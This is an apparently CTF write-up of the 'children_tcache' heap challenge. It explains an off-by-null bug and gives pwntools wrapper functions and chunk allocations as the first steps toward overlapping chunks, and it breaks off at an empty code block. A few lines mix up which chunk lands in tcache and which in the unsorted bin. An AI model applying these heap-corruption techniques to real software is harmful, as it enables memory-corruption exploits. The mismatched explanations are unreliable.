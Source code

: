  * It implements 3 basic functions, `add`, `delete` and `view`.
 * It used a global pointer to store information about chunks and the size allocated.
 * The `add` function is vulnerable to the Off by Null vulnerability.
 * It allows the allocation size upto `0x2000`.
 * There's no Use After Free vulnerability.
 * It allows the active number of allocations upto 10(inclusice) times.

 ### Exploitation 

 First and foremost, I created the wrapper functions such that we interact with binary more freely:-

```py
from pwn import *

def new_heap(size, data, attack=False):
    p.sendlineafter('Your choice: ', '1')
    p.sendlineafter('Size:', str(size))
    if attack:
        return
    p.sendafter('Data:', data)
    if len(data) < size:
        p.sendline()

def show_heap(index):
    p.sendlineafter('Your choice: ', '2')
    p.sendlineafter('Index:', str(index))

def delete_heap(index):
    p.sendlineafter('Your choice: ', '3')
    p.sendlineafter('Index:', str(index))
```

This being aide, now let's jump into the heap exploitation part, to start off, we will create following number of chunks:-

* `0x500` size chunk.
* `0x68` size chunk.
* `0x5f0` size chunk.
* `0x18` size chunk.

This is because, we will need the 2 chunk of size such that when `tcache` bins would be full they'll land into the `unsorted` bin. Moving on, we will fill the `tcache` bins for the `size` of the chunks we allocated:-

```py
p = process("./children_tcache")

# heap_list[0] => chunk_0 (0x511)
new_heap(0x500, 'a' * 0x4ff)

# heap_list[1] => chunk_1 (0x71)
new_heap(0x68, 'b' * 0x67)

# heap_list[2] => chunk_2 (0x601)

new_heap(0x5f0, 'c' * 0x5ef)

# heap_list[3] => chunk_3 (0x31)
# This chunk is for preventing consolidation of previous chunk with the top chunk

new_heap(0x20, 'd' * 0x20)
```
Now, this will do the allocation, as nothing important to see as much, to explain the size allocation here, we will be `unsorted` bin size for doing the overlapping chunk here, to move on, we will delete the `chunk_1` and `chunk_0`, the `chunk_1` belongs to the `unsorted` bin since it's size is morte than the `tcache` can hold and the `chunk_0` will go in the `tcache`.
```py
```